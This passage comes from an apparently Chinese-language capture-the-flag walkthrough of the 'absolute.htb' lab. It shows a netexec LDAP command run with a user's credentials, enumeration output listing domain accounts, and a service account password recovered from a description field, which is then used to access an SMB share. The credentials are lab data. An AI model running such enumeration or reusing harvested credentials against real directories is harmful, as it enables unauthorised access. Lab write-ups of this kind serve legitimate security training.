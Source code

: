 继续使用这个账户进行枚举，在ldap枚举的时候发现了 `smb_svc` 账户

```bash
kali@kali[~]$ netexec ldap 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --users 
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    389    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
LDAP        10.10.11.181    389    DC               [*] Enumerated 17 domain users: absolute.htb
LDAP        10.10.11.181    389    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.10.11.181    389    DC               Administrator                 2022-06-09 08:25:57 0       Built-in account for administering the computer/domain      
LDAP        10.10.11.181    389    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        10.10.11.181    389    DC               krbtgt                        2022-06-09 08:16:38 0       Key Distribution Center Service Account                     
LDAP        10.10.11.181    389    DC               J.Roberts                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               M.Chaffrey                    2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               D.Klay                        2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               s.osvald                      2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               j.robinson                    2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               n.smith                       2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               m.lovegod                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               l.moore                       2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               c.colt                        2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               s.johnson                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               d.lemm                        2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               svc_smb                       2022-06-09 08:25:51 0       AbsoluteSMBService123!                                      
LDAP        10.10.11.181    389    DC               svc_audit                     2022-06-09 08:25:51 0                                                                   
LDAP        10.10.11.181    389    DC               winrm_user                    2022-06-09 08:25:51 2       Used to perform simple network tasks
```

```
username: svc_smb
password: AbsoluteSMBService123!
```


使用这个账户枚举 smb 服务，发现可以读取 `Shared` 文件共享
